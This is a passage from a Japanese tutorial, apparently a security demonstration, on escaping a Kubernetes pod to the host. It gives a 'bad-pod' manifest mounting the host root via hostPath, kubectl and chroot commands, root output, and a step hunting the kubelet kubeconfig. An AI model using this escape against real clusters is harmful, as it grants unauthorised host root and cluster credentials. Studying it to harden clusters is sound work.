 ```yaml
# bad-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  labels:
    app: bad-pod
  name: bad-pod
spec:
  volumes:
  - name: host-fs
    hostPath:
      path: /
  containers:
  - image: ubuntu
    imagePullPolicy: Always
    name: bad-pod
    command: ["/bin/sh", "-c", "sleep infinity"]
    volumeMounts:
      - name: host-fs
        mountPath: /root
  restartPolicy: Never
```

では実際にデプロイしてみます。  

```bash
kubectl apply -f bad-pod.yaml
```

以下コマンドを実行し `bad-pod` に入ってみます。  
```bash
kubectl exec bad-pod -it -- bash
```

ホストの `/` にルートディレクトリを変更します。  
```bash
chroot /root /bin/bash
```

bad-pod から以下コマンドを実行します。  
```bash
id
ls
```

以下のようにホストの領域に root ユーザーとして入れていることが分かります。  
```
bad-pod / # id
uid=0(root) gid=0(root) groups=0(root)
bad-pod / # ls
bin  boot  dev  etc  home  lib  lib64  lost+found  mnt  opt  postinst  proc  root  run  sbin  sys  tmp  usr  var
```

実行されているプロセスの情報から Node 上の kubelet が利用している kubeconfig も確認できます。  
```bash
ps -ef | grep kubelet
```
